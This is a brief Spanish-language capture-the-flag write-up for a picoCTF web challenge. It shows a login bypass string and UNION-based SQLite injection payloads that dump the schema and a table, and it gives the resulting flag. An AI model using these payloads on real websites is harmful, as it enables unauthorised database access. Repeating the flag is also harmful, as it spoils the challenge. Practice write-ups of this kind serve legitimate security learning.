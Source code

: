## Descripción 
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Hint:
1. SQLiLite
## Solución 1

Primero nos logeamos con admin, admin y luego nos dice que vamos a necesitar una inyección sql así que usamos  ' or 1 == 1;' después nos metemos a la página de las referencias para ver algunas SQLite Injection y buscamos las que necesitemos

```
 Algiers' union SELECT sql,2,3 from sqlite_master;
 
 'union select id,flag,3 from more_table;
 
|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}|3|
|2|If you are here, you must have seen it|

flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
```

## Referencias 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md